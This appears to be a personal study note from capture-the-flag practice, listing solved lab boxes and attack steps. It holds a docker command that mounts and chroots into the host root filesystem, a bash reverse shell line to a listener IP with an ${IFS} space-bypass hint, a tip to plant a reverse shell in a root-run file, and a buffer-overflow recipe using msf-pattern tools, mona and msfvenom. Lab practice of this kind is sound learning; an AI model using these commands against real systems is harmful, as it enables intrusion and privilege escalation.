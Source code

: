 ```bash
docker run -v /:/mnt --rm -it alpine(or bash) chroot /mnt sh
```


# CTFs
```
- Lazy Admin
- Anonymous
- Tomghost
- ConvertMyVideo
- pspy
- BrainPan1
- bfo
```

- ConvertMyVideo

```bash
${IFS} = using as space

bash -i >& /dev/tcp/10.17.27.169/7778 0>&1
```

- Found a file running by root with pspy64
- we could add a reverse shell and wait the connection

> the others I've done before.. so i'll just follow the videos

## Buffer Overflow 101 for brainPan1 CTF
```bash
- first FUZZ to find when the application gonna crash
- then: msf-pattern_create -l <number of crash>
- paste to the script
- copy the EIP value
- msf-pattern_offset -l <number of crash> -q <EIP number>
- grab the offset value
- we can send the buffer “A”*<offset value> + “B”*4  = the EIP should be 42424242
- grab badchars chars
- add to your script and u should follow the ESP dump to find the badchars
- or > Using Mona (check how to use Mona from PEH here > https://johnermac.github.io/certs/pnpt/peh/#exploit-development-using-python3-and-mona)
- take off the badchars of the script
- u should find the pointer with no protections
- invert the pointer
- generate msfvenom with the inverted pointer, open a listener to receive connection
- exploit!
```
